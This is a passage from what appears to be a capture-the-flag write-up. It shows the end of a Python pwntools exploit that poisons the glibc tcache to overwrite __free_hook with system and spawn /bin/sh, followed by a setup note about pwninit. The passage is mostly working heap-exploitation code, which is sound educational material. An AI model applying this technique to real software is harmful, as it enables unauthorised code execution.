 ```python
    payload += b'X'*0x18  # chunk_data
    payload += p64(0x21) # size
    payload += b'X'*0x18  # chunk_data
    payload += p64(0x21) # size
    payload += b'X'*0x18  # chunk_data

    _, p = create_custom_donut(payload[0], payload[1:])
    first_fake_chunk_addr = p+0x10
    destroy_donut(first_fake_chunk_addr)  # first fake chunk goes into tcache
    second_fake_chunk_addr = p+0x30
    destroy_donut(second_fake_chunk_addr)  # second fake chunk goes into tcache (no coalescing because of tcache)

    destroy_donut(p)

    payload = b''
    payload += p64(0) # prev_size
    payload += p64(0x21) # size
    payload += b'X'*0x18  # chunk_data
    payload += p64(0x21) # size
    payload += p64(libc.symbols['__free_hook'])  # next_tcache_entry pointer
    payload += b'Y'*0x10  # chunk_data
    payload += p64(0x21) # size
    payload += b'X'*0x18  # chunk_data
    payload += p64(0x21) # size
    payload += b'X'*0x18  # chunk_data

    old_p = p
    _, p = create_custom_donut(payload[0], payload[1:])
    assert(p == old_p)

    create_custom_donut(73, 'XXX')  # creates 0x20-sized chunk, tcache now points to __free_hook

    address = p64(libc.symbols['system'])

    create_custom_donut(address[0], address[1:])

    _, p = create_custom_donut(ord('/'), 'bin/sh\0')

    destroy_donut(p)

    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()
```

First we need to get the `ld-2.31.so` file (use `pwninit`) and we have to generate the `donuts.txt` file. We uncomment the `dump_donuts()` call and run the script (this will take a few minutes).
